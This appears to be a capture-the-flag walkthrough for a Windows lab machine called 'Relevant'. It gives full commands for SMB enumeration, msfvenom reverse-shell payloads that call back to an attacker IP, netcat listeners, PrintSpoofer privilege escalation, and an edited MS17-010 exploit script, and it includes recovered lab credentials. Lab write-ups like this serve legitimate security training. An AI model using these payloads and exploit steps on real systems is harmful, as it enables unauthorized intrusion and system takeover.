





relevant
Relevant
Target Machine IP: 10.10.20.25 10.10.6.72 10.10.227.128
We start basic nmap scan.
nmap -A 10.10.20.25

We open the webserver running on Port 80 and find a default Microsoft IIS webpage.
Next, I try to enumearte smaba shares on Port 445
I give -U guest with dummy password. it throws error.
I try with no user and dummy password when asked for root password. It works!



I then decode the passwords using base64

We keep this information for future reference.
Foothold : Way - 1
Now, I will try to enumerate directories for the web server.
But we do not find any directories.
We use nmap again to scan all ports using -p- option.
nmap -sS -p- 10.10.20.25
This will find 4 new ports. We scan them again.

We find the port 49663 also has a web server.
We use gobuster again to find hidden directories, but we didn't find any.
Then we try the same name of samba share as a directory.
http://10.10.20.25:80/nt4wrksv/passwords.txt
http://10.10.20.25:49663/nt4wrksv/passwords.txt
The second URL prints the passwords.txt file which we downloaded eralier.
Using the Port 49663 we can access the samba shared file. Thus we can upload a (ASPX Reverse Shell) in the samba share and run it from the web server at port 49663
Note: The Wappalyzer app of Firefox hinted the ASP .Net Backend web framework
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.11.72.31 LPORT=7777 -f aspx -o shell.aspx
Note: Stageless webshell is mandatory
We connect to the samba share and upload the file using the following command.
put shell.aspx
We start a netcat listener on attack machine.
Then trigger the reverse shell using the following URL:
http://10.10.6.72:49663/ntwrksv/shell.aspx
We will get a shell as normal user.
iis apppool\defaultapppool
However, with this user we can get the user flag from C:\Users\Bob\Desktop\user.txt
Privilege Escalation:
We run
whoami /priv

It confirm that SeImpersonatePrivilege is enabled. We will use the following to exploit this.
https://github.com/itm4n/PrintSpoofer
We download the PrintSpoofer64.exe from the github release.
We upload it to the server using smb.
put PrintSpoofer64.exe
We find the location in our revershell using the “net share” command that lists all windows shares.
We go to the location and run:
Printspoofer64.exe -i -c cmd.exe

Now we have system access. We get the root flag at C:\Users\Administrator\Desktop\root.txt
Foothold : Way - 2
We begin by doing nmap again, but this time we use vuln script to check for vulnerabilities.
nmap --script vuln 10.10.20.25 [Note: Generally we should include ports with -p for efficiency]
This will show ms17-010 vulnerability.
Note: As the server is not running windows 7, we cannot run “eternalblue” exploit directly from metasploit framework.
Thus, we search for ms17-010 in exploit database.

We will use the python code that supports Microsoft Windows 2016 R2 (This was hinted in OS detection of initial nmap scan.
Get the file to user working directory using.
searchsploit -m windows/remote/42315.py
Note: This will require python2
(So impacket also has be installed for python2. [pip2 install impacket])
Then examine the file and edit the following:
1) We need to give values in username and password.
Luckily we have 2 usernames and passwords.
Note: While enumerating the machine earlier, I tried to RDP into the machine using the gained credentials.
Both the users couldn't login. However, the error message of user Jill suggested that her password is expired.
Thus for our python program lets start with Bob and !P@$$W0rD!123
2) Starting from Line 916. Comment out the following. The following lines are used to create a file bane “pwned.txt” as a POC. However, we need a reverse shell, so we will replace it the following.
#print('creating file c:\\pwned.txt on the target')
#tid2 = smbConn.connectTree('C$')
#fid2 = smbConn.createFile(tid2, '/pwned.txt')
#smbConn.closeFile(tid2, fid2)
#smbConn.disconnectTree(tid2)
smb_send_file(smbConn, 'rshell.exe', 'C', '/rshell.exe' )
service_exec(conn, r'C:\rshell.exe')
3) Create a stageless reverse shell using msfvenom
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.11.72.31 LPORT=7777 -f exe -o rshell.exe
3) Get this prequisite file.
wget https://raw.githubusercontent.com/worawit/MS17-010/master/mysmb.py
Keep both the 42315.py, mysmb.py and rshell.exe in the same directory and run the exploit as follows:
4) Start a netcat listner: nc -lvnp 7777
5) Run the exploit using python2:
python2 42315.py 10.10.227.128
We will get a reverse shell in our netcat listener. (we will directly foothold with admin access)

Thanks !!